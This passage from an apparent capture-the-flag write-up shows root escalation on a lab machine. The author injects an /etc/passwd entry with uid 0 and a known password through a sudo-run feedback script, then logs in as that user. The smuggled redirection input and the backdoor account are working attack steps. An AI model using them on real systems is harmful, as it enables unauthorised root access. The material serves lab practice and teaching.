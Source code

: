 Using this, we can make an addition to the `/etc/passwd` file and manually add an user with `uid` and `gid` set to `0` ( same as the `root` user ).

First, creating a password hash.

```console
$ mkpasswd -m md5crypt -s
Password: 123
$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0
```

Formatting the user information in the style of the `/etc/passwd`.

```
jxf:$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0:0:0:jxf:/root:/bin/bash
```

Now, writing it to the `/etc/passwd` file using the `/opt/NewComponent/feedback.sh` script.

```console
deku@myheroacademia:~$ sudo /opt/NewComponent/feedback.sh
Hello, Welcome to the Report Form
This is a way to report various problems
    Developed by
        The Technical Department of U.A.
Enter your feedback:
'jxf:$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0:0:0:jxf:/root:/bin/bash' >> /etc/passwd
It is This:
Feedback successfully saved.
```

> We use `'` around what we want to write due to the `$` character in the password hash.
{: .prompt-tip }

We can see we were succesful in writing to the `/etc/passwd` file.

```console
deku@myheroacademia:~$ tail -n1 /etc/passwd
jxf:$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0:0:0:jxf:/root:/bin/bash
```

At last, we can switch to this new user using `su` and read the `root` flag.

```console
deku@myheroacademia:~$ su - jxf
Password: 123
root@myheroacademia:~# id
uid=0(root) gid=0(root) groups=0(root)
root@myheroacademia:~# wc -c root.txt
794 root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>